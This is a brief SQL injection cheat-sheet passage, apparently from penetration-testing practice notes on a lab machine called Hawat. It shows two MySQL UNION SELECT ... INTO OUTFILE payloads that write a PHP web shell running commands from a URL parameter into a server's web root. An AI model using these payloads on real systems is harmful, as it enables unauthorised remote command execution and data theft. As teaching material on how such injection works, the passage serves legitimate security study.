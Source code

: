 ## MySQL
**If the database is mysql, try to dump all login info to files?**

#### Write to file
From the **Hawat** PG machine


```bash
UNION SELECT (<?php echo exec($_GET["cmd"]);) INTO OUTFILE '/srv/http/cmd.php'

```

Other example:
```sql
union all select "<?php echo shell_exec($_GET['cmd']);?>",2,3,4,5,6 into OUTFILE '/var/www/html/shell.php'
```

This tutorial was created to help understand SQL Injection, and describes how it works.
